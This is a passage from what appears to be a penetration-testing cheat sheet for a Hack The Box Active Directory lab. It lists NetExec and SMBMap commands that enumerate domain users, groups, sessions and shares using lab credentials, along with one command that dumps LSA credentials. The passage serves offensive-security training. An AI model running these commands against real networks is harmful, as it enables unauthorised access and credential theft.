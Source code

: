 ```powershell
PS C:\htb> Get-LAPSComputers
```

# Credentialed Enumeration - from Linux

## NetExec (CrackMapExec)

Domain User Enumeration

```shell
sudo nxc smb 172.16.5.5 -u forend -p Klmcargo2 --users
```

Domain Group Enumeration

```shell
sudo nxc smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```

Logged On Users

```shell
sudo nxc smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```

Share Enumeration - Domain Controller

```shell
sudo nxc smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```

Spider_plus

```shell
sudo nxc smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
```

Dump credentials

```shell
sudo nxc smb 172.16.5.5 -u forend -p Klmcargo2 --lsa
```

## SMBMap

SMBMap To Check Access

```shell
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```

Recursive List Of All Directories

```shell
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
```

## rpcclient
